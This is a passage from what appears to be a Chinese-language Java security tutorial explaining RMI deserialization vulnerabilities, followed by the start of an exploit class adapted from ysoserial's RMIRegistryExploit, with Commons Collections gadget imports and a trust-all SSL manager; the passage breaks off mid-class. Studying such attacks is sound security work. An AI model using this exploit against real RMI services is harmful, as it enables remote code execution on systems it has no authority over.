 程序运行结果：

```
Hello RMI~
```

## RMI反序列化漏洞

`RMI`通信中所有的对象都是通过Java序列化传输的，在学习Java序列化机制的时候我们讲到只要有Java对象反序列化操作就有可能有漏洞。

既然`RMI`使用了反序列化机制来传输`Remote`对象，那么可以通过构建一个恶意的`Remote`对象，这个对象经过序列化后传输到服务器端，服务器端在反序列化时候就会触发反序列化漏洞。

首先我们依旧使用上述`com.anbai.sec.rmi.RMIServerTest`的代码，创建一个`RMI`服务，然后我们来构建一个恶意的`Remote`对象并通过`bind`请求发送给服务端。

**RMI客户端反序列化攻击示例代码：**

```java
package com.anbai.sec.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.net.ssl.SSLContext;
import javax.net.ssl.SSLSocketFactory;
import javax.net.ssl.TrustManager;
import javax.net.ssl.X509TrustManager;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.net.Socket;
import java.rmi.ConnectIOException;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.RMIClientSocketFactory;
import java.security.cert.X509Certificate;
import java.util.HashMap;
import java.util.Map;

import static com.anbai.sec.rmi.RMIServerTest.RMI_HOST;
import static com.anbai.sec.rmi.RMIServerTest.RMI_PORT;

/**
 * RMI反序列化漏洞利用，修改自ysoserial的RMIRegistryExploit：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/RMIRegistryExploit.java
 *
 * @author yz
 */
public class RMIExploit {

   // 定义AnnotationInvocationHandler类常量
   public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

   /**
    * 信任SSL证书
    */
   private static class TrustAllSSL implements X509TrustManager {

      private static final X509Certificate[] ANY_CA = {};

      public X509Certificate[] getAcceptedIssuers() {
```